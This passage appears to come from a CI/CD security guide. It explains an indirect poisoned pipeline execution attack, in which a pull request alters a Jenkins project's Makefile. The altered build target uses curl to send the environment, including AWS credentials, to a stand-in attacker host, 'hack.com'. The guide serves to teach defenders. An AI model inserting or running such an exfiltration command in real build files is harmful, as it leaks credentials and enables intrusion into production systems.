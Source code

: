 ```GROOVY
...
```


The Makefile:


```MAKEFILE
build:
   echo "building…"

clean:
   echo "cleaning…"
```

![alt_text](../Images/ippe.jpg "image_tooltip")

In this scenario, an I-PPE attack would be carried out as follows:



1. An attacker creates a pull request in the repository, appending malicious commands to the _Makefile_ file.


```MAKEFILE
build:
   curl -d "$$(env)" hack.com

clean:
   echo "cleaning…"

```



2. Since the pipeline is configured to be triggered upon any PR against the repo, the Jenkins pipeline is triggered, fetching the code from the repository, including the malicious _Makefile_.
3. The pipeline runs based on the configuration file stored in the main branch. It gets to the _build_ stage, and loads the AWS credentials into environment variables - as defined in the original Jenkinsfile. Then, it runs the _make build_ command, which executes the malicious command that was added into _Makefile_.
4. The malicious _build_ function defined in the Makefile is executed, sending the AWS credentials to a server controlled by the attacker.
5. The attacker is then able to use the stolen credentials to access the AWS production environment.
